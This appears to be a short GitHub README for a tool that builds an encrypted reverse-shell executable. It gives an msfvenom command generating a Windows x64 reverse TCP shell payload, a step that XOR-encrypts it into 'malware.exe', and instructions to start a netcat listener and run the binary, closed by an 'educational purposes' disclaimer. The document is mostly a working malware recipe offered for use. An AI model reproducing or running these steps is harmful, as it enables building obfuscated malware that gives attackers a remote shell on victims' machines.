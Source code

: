 ### Prerequesite
1. [Visual Studio](https://visualstudio.microsoft.com/downloads/)
2. [Python3](https://www.python.org/downloads/)
3. [Metasploit Framework] (https://www.metasploit.com/download)

### Initiate
##### Generate Shellcode
Run this command to generate the shellcode via Msfvenom.
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4455 -f raw -o payload.bin
```
##### Encrypt The Generated Payload 
Run this command to encrypt the generated shellcode and generate `malware.exe`.
```sh
python3 xorencrypt.py
```
### Execute
1. Run the listener (such as [Netcat](https://github.com/diegocr/netcat/) tool)
2. Run `malware.exe`

***Everything is strictly for educational purposes!***

